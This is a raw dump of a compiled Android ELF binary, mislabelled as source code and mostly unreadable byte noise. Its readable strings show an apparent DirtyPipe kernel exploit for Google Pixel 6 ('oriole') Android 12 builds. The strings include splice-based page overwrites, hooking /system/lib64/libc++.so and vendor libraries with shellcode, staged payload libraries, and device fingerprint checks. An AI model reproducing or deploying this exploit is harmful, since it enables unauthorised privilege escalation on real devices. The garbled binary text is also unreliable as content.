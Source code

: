 ELF����������������$������@�������X�����������@�8��@���������@�������@�������@���������������������������������������������������������������������������������������������������������������������������������������������$�������$������4������4�������������������@%������@E������@E������x������x��������������������(�������X�������X������da������pq�������������������@%������@E������@E����������������������@�������������p%������pE������pE���������������������������R�td���@%������@E������@E������x�������
�������������P�td���P������P������P������T�������T��������������Q�td�����������������������������������������������������������������������������������������������������/system/bin/linker64��������������Android����r23�������������������������������������������������������������7599858���������������������������������������������������������������������������������������������������������������������������������������������������,����������������������B����������������������H����������������������M����������������������S����������������������X����������������������^����������������������c����������������������k����������������������r����������������������z�������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������c
�������������$����������������������__cxa_atexit�__libc_init�__register_atfork�__system_property_get�abort�atoi�close�exit�fcntl�fork�fprintf�fwrite�lseek64�malloc�memcmp�memcpy�open�perror�pipe�printf�puts�read�setsid�sigaddset�sigemptyset�signal�sigwait�splice�sprintf�stderr�strcmp�strcpy�strlen�system�write�libc.so�LIBC�libdl.so��0G������������@E������8G������������PE������@G������������`E������HG�������������'������XG������������Z������`G�������������X������hG������������Y������pG�������������X������xG�������������X�������G������������Z�������G������������Z������PG��������������������G��������������������G��������������������G��������������������G��������
������������G��������������������G��������#������������G��������������������G��������������������G��������������������G��������������������G��������������������H�������������������H�������������������H��������!�����������H������������������� H�������������������(H�������������������0H�������������������8H�������������������@H�������� �����������HH�������������������PH�������������������XH�������������������`H��������	�����������hH��������"�����������pH�������������������xH��������
������������H��������������������H��������������������H��������������������H��������������������H��������������������H��������������������H�������������������%d�ro.build.product�Too long stage2_lib
�read dynsym�lseek64 hook_target�stage1_lib: %s
�stage2_param_libname: %s
�Stage1 debug filename: %s
�/data/local/tmp/dirtypipe-run-index�/system/lib/libldacBT_enc.so�lseek64 e_phoff�splice failed�Device version: Product=%s Fingerprint=%s
�Invalid program header size: %d
�read sh_name�.dynstr or .dynsym not found
�stage2_lib: %s
�oriole�Stage1 payload (%d bytes) is too large. Exit.
�write failed�ro.build.fingerprint�read backup stage1�google/oriole/oriole:12/SP2A.220305.013.A3/8229987:user/release-keys�Ignore device info.�lseek64 shdr�.dynstr�Sorry, cannot write across a page boundary
�read libc++.so�open failed�read backup stage2�read phdr�/vendor/lib/libstagefright_soft_mp3dec.so�google/oriole/oriole:12/SP2A.220405.004/8233519:user/release-keys�/dev/.dirtypipe-%04d�short splice
�Empty space size: %ld bytes
�lseek64 st_name�-f�google/oriole/oriole:12/SQ1D.220205.004/8151327:user/release-keys�Unsupported product: Product=%s Fingerprint=%s
�Could not find hook target and shellcode offset from libc++.so
�d503233f PACIASP was found. Offset hook address by +4.�lseek64�read first instruction�/system/lib64/libc++.so�.dynsym�short write
�Too long libname: %s
�It worked!�_ZNSt3__115basic_streambufIcNS_11char_traitsIcEEEC2Ev�Shell code size: %d 0x%x bytes
�Sorry, cannot start writing at a page boundary
�read st_name�Unsupported version: Product=%s Fingerprint=%s
�Run index: %d
�Invalid elf file: %s